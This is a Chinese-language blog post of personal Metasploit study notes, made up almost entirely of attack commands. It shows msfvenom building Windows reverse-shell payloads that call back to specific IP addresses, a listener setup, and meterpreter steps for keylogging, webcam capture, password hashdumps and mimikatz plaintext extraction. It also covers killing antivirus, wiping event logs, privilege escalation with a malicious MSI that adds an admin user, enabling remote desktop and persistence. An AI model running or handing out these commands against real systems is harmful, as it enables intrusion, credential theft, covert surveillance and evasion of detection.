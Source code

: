 ```yaml
---
layout:		post
title:		"metasploit学习笔记"
subtitle:		"分享一下以前写的msf笔记"
date:		2017-06-08 23:21:49 +0800
author:		"Les1ie"
tags: 
  - 学习笔记
  - metasploit
  - 网络安全
---
```


## 0x00 序言
2017年6月8日23:26:39 
这是平时记的笔记，后面有空了继续分享一些有趣的东西


## 0x01 在服务器上安装msf
2017年4月23日01:07:30

手动安装msf
```bash
$ #url: https://www.rapid7.com/products/metasploit/download/community/thank-you/
$ wget https://downloads.metasploit.com/data/releases/metasploit-latest-linux-x64-installer.run
$ #key 8TD3-KQ09-HLP0-EVJR
$ apt install postgresql
$ passwd postgres #metasploit4
$ su - postgres
$ psql
[psql]$ \password postgres
[psql]$ \quit
$ sudo ./metasploit-latest-linux-x64-installer.run --installer-language zh_CN --prefix /opt/metasploit --postgres_password psql_passwd
$ #建立数据库连接
$ db_connect postgres:metasploit4@localhost:5432/metasploit4
```

---
msf连接数据库
```bash
msfdb init
```

建立数据库索引
```
$ db_bebulid cache
```

msf自定义模块安装位置
`/opt/metasploit/apps/pro/vendor/bundle/ruby/2.3.0/gems/metasploit-framework-4.14.13/modules/exploits/windows/iis`



## 0x01 常用命令

1. 使用reverse_tcp监听模块
```bash
$ use exploit/multi/handler
$ set PAYLOAD windows/meterpreter/reverse_tcp
$ show options
$ set LHOST 0.0.0.0
$ set LPORT 5555
```
2. 生成reverse_tcp模块，-p 表示使用的payload, -f 表示生成shellcode的种类
```bash
$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=123.207.2.2 LPORT=5555 -f exe >shell.exe  
$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=123.207.1.2 LPORT=5555 -f dll >shell.dll
```
3. meterpreter的使用
```bash
$ ps  # show all progress
$ kill pid
$ keyscan_start # start record keyboard
$ keyscan_dump
$ keyscan_stop
$ ipconfig
$ ifconfig
$ screenshot 
$ shell  # get cmd shell
$ getsystem  #get root
$ getwd   # get path
$ pwd
$ sysinfo
$ cat file.txt
$ idletime # time of no operate
$ search -h  # search file
$ upload /root/file.txt
$ webcam_snap # you know
$ run check_kvm  # check virtue machine or not
$ run get_local_subnets
$ run post/windows/manage/autoroute #获取路由信息
$ run post/windows/gather/smart_hashdump #get system passwd， need root
$ migrate 2333 #move meterpreter to another progess
$ timestop #change timestamp
$ run killav #kill anti virus software
$ run post/windows/gather/checkvm
```


提权：
```cmd
getsystem 获取system权限
$ getuid 查看当前权限
$ shell
> net user fdf6e3 fdf6e4 /add
> net localgroup adminstrator fdf6e3 /add   新建用户提升至管理员权限

```
盗取管理员token
```
$ steal_token 3232
$ getuid
```

获取管理员密码
```
$ hashdump
$ smart_hashdump  ? 不详， 稍后查验
```

开对方3389
```
$ run getgui -e
$ rdesktop -u fdf6e3 -p fdf6 ip

```

如果上述提权均失败，尝试手动提权
```
$ background # 将会话放到后台运行
$ use exploit/windows/local/ms15_051_client_copy_image
$ set SESSION 1 直接设置session id, 
$ exploit
$
$ sessions -i 1 返回meterpreter会话，
$ getuid 此时权限一般不是管理员
$ ps 找一个system的进程pid
$ migrate 2324
$ getuid
```

获取对方最近文件操作
```
run post/windows/gather/dumplinks
```

载入mimikatz获取明文密码
```
$ load mimikatz
$ msv 确认当前权限
$ kerberos 导出明文密码
$ mimikatz_command -f sekurlsa::searchPasswords 获取明文密码
```

清理痕迹
```
$ clearev
```

AlwaysInstallElevated 提权
```
$ cmd 里面执行
$ reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated


$ reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

$ #生成msi文件用于提权
$ msfvenom -p windows/adduser USR=fdf6e4 PASS=ABCDEF -f msi -o add_user.msi
$ upload add_user.msi c:\\add.msi
$ 使用msiexec 安装msi文件
$ msiexec /quit /qn /i c:\add_user.msi
/quit 表示禁止发送消息 /qn 表示禁止gui界面 /i 表示安装程序
$ net localgroup administrator 查看当前计算机的管理员

$ 开启对方3389
$ wmic RDTOGGLE WHERE ServerName='%COMPUTERNAME%' call SetAllowTSConnections 1
```

绕过uac提权
```
$ background
$ use exploit/windows/local/bypassuac
$ set session 1
$ exploit
$ getuid
$ getsystem
$ getuid
```

其他提权漏洞
 ms13_053, ms14_058, ms16_016, ms16_032
 
 权限维持,在meterpreter中执行
 ```
 $ run metsvc -A
 $ 此时meterpreter 掉线，按照提示新建连接
 $ use exploit/multi/handler
 $ set payload windows/metsvc_bind_tcp
 $ set port 33333
 $ run
```
控制完成
退出第一个meterpreter, 输入
```
$ session -l
```
即可看到rj, 输入 
```
$ session -i id
```
即可长期控制


实际操作中，getsystem提权和bypassuac 提权失败，使用ms15_051运行之后需要将会话转移到一个system的进程中，最后ms14_058提权成功
检测成功只需要检测当前路径即可，或者getuid

## 0x02 使用meterpreter搭建跳板
2017年6月8日23:29:25
等以后有空了研究了再写吧
